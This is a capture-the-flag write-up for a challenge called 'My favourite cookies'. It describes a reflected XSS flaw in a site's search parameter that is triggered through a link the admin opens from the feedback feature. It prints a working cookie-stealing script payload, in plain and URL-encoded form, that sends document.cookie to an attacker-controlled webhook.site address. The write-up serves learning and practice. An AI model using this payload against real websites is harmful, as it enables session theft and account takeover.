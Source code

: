 # Challenge `My favourite cookies` Writeup

- Vulnerability:
    - XSS attack

- Where:
    - Feedback link input

- Impact:
    - Allows to steal remote user's cookie

## Steps to reproduce

This challenge consists in grabbing the admin's cookie and we know that the website is vulnerable to XSS attacks and that the admin will click on the link we submit on the feadback feature.

Knowing this, we can take advantage from this and send a malicious payload on the search URL parameter (`?search=`). This payload will then reveal the admin's cookie and send it to us.

To achieve this, we must create a website on [Webhook.site](https://webhook.site) and get the URL of the website that will receive the remote requests. Then, we can create a malicious payload that will send the admin's cookie to our webhook. The payload is the following: `<script>location='https://webhook.site/<unique-id>/'+document.cookie</script>`. To ensure that the payload will be correctly executed, we must URL encode it. The final payload is then: `%3Cscript%3Elocation%3D%27https%3A%2F%2Fwebhook.site%2F<unique-id>%2F%27%2Bdocument.cookie%3C%2Fscript%3E`. Finally, we append this encoded payload to the search URL parameter and submit it to the admin.

The admin will then click on the link and automatically make a search query with the payload that will send a request to our webhook site with the cookies appended. In the webhook site we will see a GET request and then we only need to URL decode the cookies to get the flag. The cookies will be after `/SECRET=`.
